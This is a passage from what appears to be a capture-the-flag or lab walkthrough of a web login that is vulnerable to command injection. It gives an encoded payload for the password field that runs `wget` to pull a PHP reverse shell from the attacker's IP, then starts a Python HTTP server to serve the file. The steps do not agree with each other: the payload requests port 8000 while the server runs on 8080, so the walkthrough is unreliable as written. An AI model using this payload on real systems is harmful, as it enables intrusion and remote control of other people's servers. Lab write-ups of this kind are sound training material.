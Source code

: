 After trial and error, and lots of searching, i concluded to this payload, so paste it in the password field  instead of `sth`:
```shell
%0Abash%09-c%09"wget%0910.10.14.184:8000/rev_shell.php"%0A
```
and now our new request should look like this
![Pasted image 20250527193603](MediaFiles/Pasted%20image%2020250527193603.png)

once we do that, lets go to our machine to setup our python server in order to transfer our php rev shell from our machine towards the target
```shell
python3 -m http.server 8080
```

only then hit forward in order to forward our request
![Pasted image 20250527203744](MediaFiles/Pasted%20image%2020250527203744.png)
and then you should see on your terminal, that the file has been successfully transfered:
![Pasted image 20250527203910](MediaFiles/Pasted%20image%2020250527203910.png)
